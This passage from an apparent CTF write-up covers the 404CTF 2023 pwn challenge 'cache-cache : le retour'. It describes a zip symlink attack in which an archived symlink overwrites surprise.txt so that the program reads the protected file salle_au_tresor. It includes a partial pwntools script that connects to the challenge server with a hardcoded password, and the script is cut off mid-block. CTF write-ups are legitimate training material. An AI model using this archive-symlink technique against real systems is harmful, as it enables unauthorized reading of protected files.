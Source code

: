 We can put a symlink from surprise.txt to salle_au_tresor in mystere.zip.

### Exploit

We encode base64 a symlink from surprise.txt to salle_au_tresor. The program put in mystere.zip the base64 decoded payload (the symlink).

The program unzip mystere.zip, overwriting surprise.txt that is now a symlink to salle_au_tresor.

The program reads a line from surprise.txt that is a symlink to salle_au_tresor. So, the program reads a line from salle_au_tresor and reads it for us.

### Payload Creation

In local, we create a file called salle_au_tresor. We create a symlink to it. We zip surprise.txt into mystere.zip. Then we encode in base64 mystere.zip.

![payload](/assets/img/CTFs/404CTF2023/pwn/cache-cache_%3A_le_retour/payload.png)

Our payload is ready.

### Final Code

```python
from pwn import *
import time

while True:
    #p = process("./cache_cache_le_retour")
    p = remote("challenges.404ctf.fr",31725)


    password = b'6qzQbN(m>@KROp^1(Gh:'

    p.recvuntil(b"mot de passe ?\n")
    p.sendline(password)

    sms = p.recv()

    if b'Je me vois au regret de refuser' in sms:
        p.close()
        #time.sleep(0.6)
        continue
    else:
```
